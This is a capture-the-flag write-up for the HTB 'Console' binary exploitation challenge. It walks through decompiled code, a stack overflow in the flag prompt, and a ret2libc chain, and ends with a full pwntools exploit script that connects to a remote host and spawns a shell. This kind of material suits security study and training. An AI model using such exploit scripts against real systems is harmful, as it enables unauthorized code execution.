








# HTB Console - Write Up
Very basic pwn challenge, from the second i ran checksec and file i already knew it was ret2libc.



64bit, dynamically linked and also stripped so spin up ghidra realfastmyg
First thing i look for when im doing reverse is interesting functions such as gets, fgets, strcpy etc, but in FUN_00401201's case.


# Finding Primitives. 
I know ghidra looks disgusting, but if you havent noticed yet. We have interesting stuff, such as HOF.
```c
else {
    var = strcmp(param_1,"hof\n");
    if (var == 0) {
        puts("Register yourself for HTB Hall of Fame!");
        printf("Enter your name: ");
        fgets(&DAT_004040b0,10,stdin);
        puts("See you on HoF soon! :)");
    }
}
```
The `hof` command serves as a simple interaction point for users to register their names for a Hall of Fame feature.
Command Recognition -> The program recognizes the command and executes the corresponding block of code.
User Interaction -> It engages the user by asking for their name after displaying a message about the Hall of Fame.
Input Handling -> The program collects user input into a designated memory location **DAT_004040b** which is likely stored in the **BSS segment**.

Likely ? Lets make sure


As you can see, theres binsh !, so indeed hof writes everything we type into the bss seg. What i did here is ive put the binary in gdb, ran it, wrote hof then wrote binsh and examine'd the addr found during the RE.

Now what ? 
# Find the big boss
the boss is literally above the hof 
```c
    else {
      var = strcmp(param_1,"flag\n");
      if (var == 0) {
        printf("Enter flag: ");
        fgets(buffer,0x30,stdin);
        puts("Whoops, wrong flag!");
      }
```
for me i see it as simple bof. Lets debug.



whatever also use `pattern create` , now run `i f ` then copy the saved rip value then run `pattern offset 0x6161616161616164` then itll show that the offset is 24.

# Now what ?
we got the offset.
we got the address of binsh.

we need system to make it classic ret2libc, and lucky for us we have a command calls system which is date.
```c
          else {
            var = strcmp(param_1,"date\n");
            if (var == 0) {
              system("date");
            }
```
we need to get the address of system.
and also since we're dealing with 64bit calling conventions we need a ROP Gadget, `pop rdi ret` will do us a favor.

jus use this
```
objdump -D htb-console | grep system
```
and you should find zis



now last but not least, za pop rdi ret.



Now we got everything we need to build our exploit:
```
offset = 24
binsh addr = 0x004040b0
system_addr = 0x00401381
pop_rdi_ret = 0x401473
```

ilovepwntoolsitmakesmylifeeasier

now the exploit should look like this.




and thats it ENjoy zaexploit.

```py
#!/usr/bin/env python3
from pwn import *

r = remote("83.136.254.158", 36429)
# stuff
pop_rdi = 0x0401473
offset = 0x18 # 24
binsh_addr = 0x004040b0
system_addr = 0x00401381

# Write binsh to .bss
r.recvuntil('>> ')
r.sendline('hof')
payload = b'/bin/sh\x00'
r.recvuntil('Enter your name: ')
r.sendline(payload)

# Trigger the bof
r.recvuntil('>> ')
r.sendline('flag')

# last step
payload = flat(
        b'A' * offset,
        p64(pop_rdi),
        p64(binsh_addr),
        p64(system_addr),
)

# Exploit it
r.recvuntil('Enter flag: ')
r.sendline(payload)
r.interactive()
```

there u go ??!!!


L33tJbr
